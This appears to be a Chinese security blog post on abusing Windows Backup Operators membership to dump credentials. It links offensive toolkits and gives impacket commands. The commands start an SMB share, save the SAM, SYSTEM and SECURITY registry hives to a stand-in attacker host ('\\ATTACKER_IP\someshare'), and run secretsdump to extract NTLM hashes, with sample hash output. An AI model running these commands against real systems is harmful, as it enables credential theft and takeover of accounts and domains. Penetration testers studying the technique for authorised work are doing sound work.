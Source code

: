 ```yaml
---
title: SAM转储 & Back Operators权限利用
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# SAM转储 & Back Operators权限利用

## 当前用户属于Backup Operators 并且有shell

> https://github.com/improsec/BackupOperatorToolkit?tab=readme-ov-file
> 

> https://github.com/mpgn/BackupOperatorToDA
> 

> https://blog.csdn.net/shuteer_xu/article/details/140972317
> 

## 当用户在Backup Operators 组下

### 在Linux下的解决方案

> https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#exfiltration
> 

配置impacket工具包使用

1. 开启`SMB`服务器，方便将文件导出到服务器
    
    ```python
    smbserver.py -smb2support "someshare" "./"
    ```
    
2. 通过`impacket`的`reg.py`来操作
    
    ```python
    # save each hive manually
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'
    
    # backup all SAM, SYSTEM and SECURITY hives at once
    reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
    ```
    
3. 本地导出密码
    
    ```python
    secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL              
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    [-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
    [*] Cleaning up...
    ```